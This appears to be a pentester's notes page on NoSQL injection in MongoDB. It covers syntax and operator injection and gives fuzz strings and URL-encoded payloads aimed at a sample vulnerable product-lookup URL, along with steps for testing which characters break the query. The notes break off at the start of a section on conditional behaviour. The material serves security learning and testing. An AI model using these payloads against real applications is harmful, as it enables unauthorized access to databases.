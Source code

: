 ```yaml
---
description: mongoDB, Redis, Cassandra
---
```


# NoSQLi

{% embed url="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/NoSQL%20Injection" %}

## Types of NoSQL injection

* **Syntax injection** - This occurs when you can break the NoSQL query syntax, enabling you to inject your own payload.
* **Operator injection** - This occurs when you can use NoSQL query operators to manipulate queries.

## NoSQL syntax injection

{% code overflow="wrap" fullWidth="true" %}
```sh
Break the query syntax -> test each input by submitting fuzz strings and special chars that trigger a database error
or some other detectable behaviour.
If you know the API language of the target database, use special chars and fuzz strings. Otherwise, try a variety.

######################### Detecting syntax injection in MongoDB
https://insecure-website.com/product/lookup?category=fizzy
# App sends JSON query to retrieve relevant products from the product collection in the MongoDB database:
this.category == 'fizzy'
# To test whether the input may be vulnerable, submit a fuzz string in the value of the category parameter
'"`{                                                                                                                      '
;$Foo}
$Foo \xYZ
#  Use this fuzz string to construct the following attack: 
https://insecure-website.com/product/lookup?category='%22%60%7b%0d%0a%3b%24Foo%7d%0d%0a%24Foo%20%5cxYZ%00                              '
# If this causes a change from the original response, this may indicate that user input isn't filtered or sanitized
# NOTE: if we inject a JSON payload, that would be
'\"`{\r;$Foo}\n$Foo \\xYZ\u0000
'
########################### Determining which characters are processed
# To determine which chars are interpreted, you can inject individual characters such as ' which results in Mongo query:
this.category == '''																												'
# If ' char has broken the query syntax -> confirm this by submitting a valid query string in the input:
this.category == '\''																												'
# If that last injection does not cause a syntax error, this may mean that the application is vulnerable

########################### Confirming conditional behavior
# After detecting a vuln -> determine whether you can influence boolean conditions using NoSQL syntax.
```